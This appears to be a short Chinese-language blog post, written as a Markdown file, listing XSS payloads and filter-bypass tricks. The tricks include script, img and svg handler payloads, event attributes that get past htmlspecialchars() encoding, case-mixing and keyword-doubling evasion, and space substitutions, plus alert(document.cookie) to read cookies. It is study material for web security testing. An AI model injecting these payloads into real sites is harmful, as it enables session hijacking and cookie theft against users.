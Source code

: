 ```yaml
---
layout: post
title: xss绕过方法
categories: [web,xss]
---
```


# XSS有许多的绕过技巧
## 基本
```html
	<script>alert(1)</script>  
	<img src=1 onerror=alert(1)>  
	<a href=javascript:alert(1)>  
	"><script>alert('xss')</script>//
	<svg onload=alert(1)>  
	<svg onload=alert`1`></svg>  
	万能检测<SCRscriptIPT>’”()Oonnjavascript
```
## 当使用了htmlspecialchars()实体化后
```javascript
	1.使用on事件:  
	onmouseover
	onmouseout
	onclick  
	onfocus  
	<input type="text" onkeydown="alert(1)">//用户按下按键时触发  
	<input type="text" onkeypress="alert(1)">//用户按下按键时触发  
	<input type="text" onkeyup="alert(1)">//用户松开按键时触发  
```
![xss](/img/xss1.png)


## 当危险字段被过滤时
1.尝试大小写  
2.尝试双写

## 空格被实体化后
>可以尝试用`/`替换  
>若`/`也被实体化,可使用回车：`%0a`替代

## BOM
```javascript
 alert():警告弹窗  
 confirm():确定弹窗 
 prompt():提示弹窗
>通常用来证明xss漏洞存在。  
`获取cookie信息`  
 alert(document.cookie)
 screen()
 location() 
```